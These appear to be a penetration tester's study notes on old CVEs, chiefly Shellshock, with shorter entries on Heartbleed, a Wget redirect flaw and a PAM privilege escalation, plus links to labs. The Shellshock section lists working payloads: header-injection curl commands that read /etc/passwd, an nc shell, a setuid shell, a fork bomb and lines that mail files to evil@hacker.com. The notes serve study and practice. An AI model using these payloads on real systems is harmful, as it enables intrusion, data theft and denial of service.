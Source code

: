 ## Exploits

### CVE-2014-6271 - Shellshock
- `Bash 4.3` and earlier
- Execute commands from `environment variables` unintentionally.
- Caused by Bash processing trailing strings after function definitions in the values of environment variables.
- Exploitable when attacker has control of environment variables.

```
GET http://shellshock.testsparker.com/cgi-bin/netsparker.cgi HTTP/1.1
User-Agent: Netsparker
Host: shellshock.testsparker.com
Referer: () { :;}; echo "NS:" $(</etc/passwd)
```

#### Test if Vulnerable
```
env x='() { :;}; echo OOPS' bash -c :
env x='() { :;}; echo vulnerable' bash -c "echo not-vulnerable"
```

#### Explanation
- To run a command in a new shell
```
bash -c ls
```
- New shell inherits environment
- If new shell finds what seems to be a function in an environment variable:
  - New shell executes the function to get the actual value
  - When function is executed, evaluation didn’t stop when the end of the function definition is reached.

Hence, when new shell sees `() { :;};`, bash will start executing the function and proceed to also execute the `echo`.

#### Samples

Passwd
```
curl -A '() { :;}; echo "Content-Type: text/plain"; echo; /bin/cat /etc/passwd' http://192.168.1.14/cgi-bin/status
```
```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" \
http://192.168.1.14/cgi-bin/status
```
Directory Listing
```
curl -A '() { :;}; echo "Content-Type: text/plain"; echo; /bin/ls /' http://192.168.1.14/cgi-bin/status
```

Reverse shell
```
curl -A '() { :; }; /bin/bash -c "/usr/bin/nc -lvvp 2345 -e /bin/bash"' http://192.168.1.14/cgi-bin/status
```

Setuid shell
```
() { :; }; cp /bin/bash /tmp/bash && chmod 4755 /tmp/bash
```

Fork Bomb
```
() { :; }; :(){ :|: & };:
```

Ping Bot
```
() { :; }; ping -s 1000000 <victim IP>
```

Data Theft
```
() { :; }; find ~ -print | mail -s "Your files" evil@hacker.com
() { :; }; cat ~/.secret/passwd | mail -s "This password file" evil@hacker.com
```

#### Exploitation Vectors
> - Ref: https://github.com/opsxcq/exploit-CVE-2014-6271

##### CGI
- Bash will receive the environment variables passed by the server
- Server passes various details of the request to a handler program in the environment variable list. For example, `HTTP_USER_AGENT`.
- `exploit/multi/http/apache_mod_cgi_bash_env_exec`
- [Apache mod_cgi - 'Shellshock' Remote Command Injection](https://www.exploit-db.com/exploits/34900)

##### OpenSSH
- ForceCommand will execute a fixed command on login
- If user specify a command to run, user specific command is put into environment (`SSH_ORIGINAL_COMMAND`)
- Bash will parse `SSH_ORIGINAL_COMMAND` on start-up, and run the commands

##### DHCP clients
- Some DHCP clients can also pass commands to Bash
- Malicious DHCP server provide, a string crafted to execute code (in an addition option)

##### Qmail server
- Qmail mail server passes external input through in a way that can exploit a vulnerable version of Bash.

##### IBM HMC restricted shell

#### References
- [Shellshock: How does it actually work?](https://fedoramagazine.org/shellshock-how-does-it-actually-work/)
- [[Related Issues+] ShellShock: All you need to know about the Bash Bug vulnerability](https://www.symantec.com/connect/blogs/shellshock-all-you-need-know-about-bash-bug-vulnerability)

#### Practice
- [https://pentesterlab.com/exercises/cve-2014-6271](https://pentesterlab.com/exercises/cve-2014-6271)
- [[Docker] Shellshock exploit + vulnerable environment](https://github.com/opsxcq/exploit-CVE-2014-6271)
- HTB - Shocker

### CVE-2014-7169

### CVE-2014-0160 - Heartbleed

#### References
- https://fedoramagazine.org/update-on-cve-2014-0160-aka-heartbleed/

### CVE-2016-4971 - GNU Wget < 1.18 - Arbitrary File Upload / Remote Code Execution
- issuing a crafted HTTP 30X Redirect containing FTP server reference in response
- `wget` will automatically follow the redirect
- `wget` will download a malicious file from the FTP server (to current dir)
- `wget` will fail to rename the file to the originally requested filename
- will not work with `-O`
- However, By saving `.wgetrc` in `/home/victim/.wgetrc` could set arbitrary wget settings such as destination directory

Exploits:
- [https://www.exploit-db.com/exploits/40064](https://www.exploit-db.com/exploits/40064)


## Privilege Escalation

### CVE-2010-0832 - Linux PAM 1.1.X MOTD File Tampering
- pam_motd (aka the MOTD module) in libpam-modules
- Before 1.1.0-2ubuntu1.1 in PAM on Ubuntu 9.10
- Before 1.1.1-2ubuntu5 in PAM on Ubuntu 10.04 LTS
- Change the ownership of arbitrary files via a symlink attack on .cache in a user's home directory.
- "user file stamps" and the `motd.legal-notice` file.

Exploits:
- [https://www.exploit-db.com/exploits/14339](https://www.exploit-db.com/exploits/14339)
- [https://www.exploit-db.com/exploits/14273](https://www.exploit-db.com/exploits/14273)
- [https://twitter.com/jonoberheide/status/18009527979](https://twitter.com/jonoberheide/status/18009527979)

Practice:
- HTB - Popcorn
